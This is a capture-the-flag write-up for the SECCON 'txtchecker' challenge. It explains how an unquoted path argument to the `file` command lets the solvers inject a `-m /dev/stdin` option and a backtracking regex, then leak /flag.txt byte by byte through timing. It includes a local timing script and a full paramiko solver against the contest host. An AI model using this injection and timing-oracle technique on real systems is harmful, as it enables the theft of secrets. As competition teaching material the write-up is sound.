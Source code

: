 ## txtchecker

In this task we received an archive with the environment that was run on the organizers server.

The clue of the task was to exfiltrate the flag that was located in `/flag.txt` by interacting with a `checker.sh` script:

```sh
#!/bin/bash
read -p "Input a file path: " filepath
file $filepath 2>/dev/null | grep -q "ASCII text" 2>/dev/null
# TODO: print the result the above command.
#   $? == 0 -> It's a text file.
#   $? != 0 -> It's not a text file.
exit 0
```

Additionally, the environment setup had a watcher that killed processes that were run for more than 10 seconds.

## Initial attempt

Initially, we thought that this would be a simple command injection bug, where we could provide an input like `$(execute something)` to execute a process that would e.g. send a flag to our server.
However, it turned out that bash, or rather its `read -p <string> <variable>` command does escape/quote the input properly, so it doesn't seem that a command injection is possible.

We then spent lots of time reading about `file` and its magic file formats and trying out various flags from it.
We also had an idea that maybe some unicode characters would allow us to escape the quoting or something, but we eventually found the solution and haven't tried this.

## Solution

At some point we thought that the 10 seconds limit for processes may be crucial here, as in: why didn't they limit the execution to e.g. 2 or 4 seconds?

So we came up with an idea that if we make `file ... | grep ...` execute for a very long time, then we would maybe be able to exfiltrate the flag byte by byte, and... it turned out that it was it!

We came up with an idea of using the `-m /dev/stdin` flag to provide the file a magic header specification can be provided in. By using `/dev/stdin` we were able to provide that specification from standard input through our connection.
Then, we also found out one can use a regex matcher in the magic specification and, that we can pass in the `/flag.txt` file multiple times to amplify the timings.
Well, actually, we passed it 10k times!

So, our initial approach/finding was just trying out things in shell and something like this worked:
```
file -m /dev/stdin /flag.txt /flag.txt /flag.txt /flag.txt …
0       regex         SECCO(M)++++++++          ASCII text %1001s
```

(where the second line was passed to /dev/stdin, actually I think we used `echo '...' | file ...` initially)

Here is a small script we created to test and amplify the timings:

```python
import os

flag = '/flag.txt ' * 10000

#cmdline  = "echo '0       search          SECCON          ASCII text %1001s' | file -m /dev/stdin {} 2>/dev/null | grep -q \"ASCII text\" 2>/dev/null".format(flag)
#cmdline2 = cmdline.replace('SECCON', "SECCOM")

cmdline  = "echo '0       regex         (((((S+E+C+C+O+N+)+)+)+)+)+          ASCII text %1001s' | file -m /dev/stdin {} 2>/dev/null | grep -q \"ASCII text\" 2>/dev/null".format(flag)
cmdline2  = "echo '0       regex         (((((S+E+C+C+O+M+)+)+)+)+)+          ASCII text %1001s' | file -m /dev/stdin {} 2>/dev/null | grep -q \"ASCII text\" 2>/dev/null".format(flag)

#print(cmdline)

import time

p1 = time.time()
#os.system('time %s' % cmdline)
os.system(cmdline)
p2 = time.time()
#os.system('time %s' % cmdline)
os.system(cmdline2)
p3 = time.time()

print(p2-p1, p3-p2)
```

Then, our big problem was "how to pass this input to ssh", since the checker.sh script was hosted in a docker container and was exposed to us through a ssh connection.

That was problematic. We tried pwntools, pexpect and then paramiko. That finally worked and we brute forced the timings byte by byte to get a flag.

Of course we also had to run it on a server that was colocated closer to the organizers servers, but yeah, that happens :).

Here is the final solver script:

```python
import paramiko
import paramiko.client
import string
from time import time


flag = '/flag.txt ' * 10000
to_send = "-m /dev/stdin {}\n".format(flag).encode()
#host = localhost
host = 'txtchecker.seccon.games'

def try_prefix(prefix):
    c = paramiko.client.SSHClient()
    c.set_missing_host_key_policy(paramiko.client.AutoAddPolicy)
    c.connect(hostname=host, port=2022, username='ctf', password='ctf')
    stdin, stdout, stderr = c.exec_command('/app/checker.py')

    stdin.write(to_send)
    stdin.write("0       regex         {}          ASCII text %1001s\n".format(prefix).encode())
    start_t = time()
    stdin.close()

    assert(stdout.channel.recv_exit_status() == 0)

    end_t = time()
    c.close()

    return (end_t - start_t)

known_prefix = 'SECCON{'
alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + '_'

#print("SECCOM")
#print(try_prefix("SECCO(M)++++++++++++"))
#print("SECCON")
#print(try_prefix("SECCO(N)++++++++++++"))
print("SECCOM")
print(try_prefix("SECCO(M)++++++++"))
print("SECCON")
print(try_prefix("SECCO(N)++++++++"))


while True:
    times = []
    for ch in alphabet:
        flag_candidate = known_prefix + ch
        regex = known_prefix + '(' + ch + ')++++++++'
        regex = regex.replace('{', '.')
        t = try_prefix(regex)
        times.append( (t, ch) )
        print(flag_candidate, t)
    times.sort()

    known_prefix = known_prefix + times[0][1]
    print("FOUND NEW FLAG:", known_prefix)
 ```
 
 
And the flag was: `SECCON{reDo5L1feS}` (if I recall correctly :D)
